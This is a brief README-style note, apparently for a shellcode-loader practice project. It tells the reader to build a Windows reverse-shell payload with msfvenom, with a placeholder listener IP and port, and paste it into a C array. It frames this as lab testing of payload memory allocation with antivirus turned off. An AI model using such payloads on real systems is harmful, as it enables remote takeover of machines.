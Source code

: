 To test this effectively run msfvenom -p windows/x64/shell_reverse_tcp LHOST=YourIpAddress LPORT=DesiredPort -f c and copy that
into the Talktome array. The point of this code was not to evade AV/EDR so make sure you practice in a dedicated lab environment 
with it off. This is not an effective way to get a reverse shell using the .text binary this is mostly to test effectively allocating
the payload to memory and printing the address.